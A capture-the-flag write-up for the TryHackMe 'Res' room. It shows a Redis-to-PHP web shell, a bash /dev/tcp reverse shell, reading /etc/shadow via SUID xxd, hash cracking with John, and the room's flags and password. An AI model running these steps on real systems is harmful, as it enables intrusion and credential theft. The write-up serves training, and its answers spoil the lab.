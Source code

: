 # Room: Res

## General Info
- **Room link:** [Res](https://tryhackme.com/room/res)

## Description

Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

## Provided Files / Links
- [x] Target Machine IP (10.10.151.169)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV 10.10.151.169 -p- -T5`

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```
There is a redis service on port 6379.

I was able to connect on the service with `redis-cli -h 10.10.151.169 -p 6379`.

I will try to get unauthenticated Remote Code Execution now with the following:

```
config set dir /var/www/html
config set dbfilename shell.php
set payload "<?php system($_GET['cmd']); ?>"
save
```

I then create a listener (`nc -lnvp 1337`) and trigger the shell:

```
http://10.10.151.169/shell.php?cmd=id
http://10.10.151.169/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/MY-IP/1337+0>%261'
```

An I am now in the target machine.

## Target machine exploitation

I first stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/sh")'`.

I am able to locate the user.txt flag in /home/vianka: **thm{red1s_rce_w1thout_credent1als}**.

I download linpeas.sh on the target machine (after creating a web server on my machine with `python3 -m http.server 33456`).

The most important thing is the following (I will exploit this permission later):

```
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
-rwsr-xr-x 1 root root 19K Mar 18  2020 /usr/bin/xxd
```

Then the following is something that I already knew when I connected to redis: 

```
Redis isn't password protected
-rw-rw-r-- 1 vianka vianka 84643 Sep  2  2020 /home/vianka/redis-stable/redis.conf
```

The groups permission will be useful later when we're logged as vianka (vianka is in the sudo group):

```
uid=1000(vianka) gid=1000(vianka) groups=1000(vianka),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

First, I will exploit the `xxd` vulnerability with GTFObins (https://gtfobins.github.io/gtfobins/xxd/). I can read the /etc/shadow file with these commands:

```
LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | xxd -r
```

I find vianka's hash:

```
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Then I will try to crack the hash with John the Ripper.

I create a hash.txt file with the hash:

`echo '$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0' > hash.txt`

And run the command (it's a sha512crypt hash):

`john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

And I find the password **beautiful1**.

With vianka's password, I am able to switch user and since vianka is in the sudo group, I can now become root (`sudo su`).

I find the last flag in /root/root.txt: **thm{xxd_pr1v_escalat1on}**.
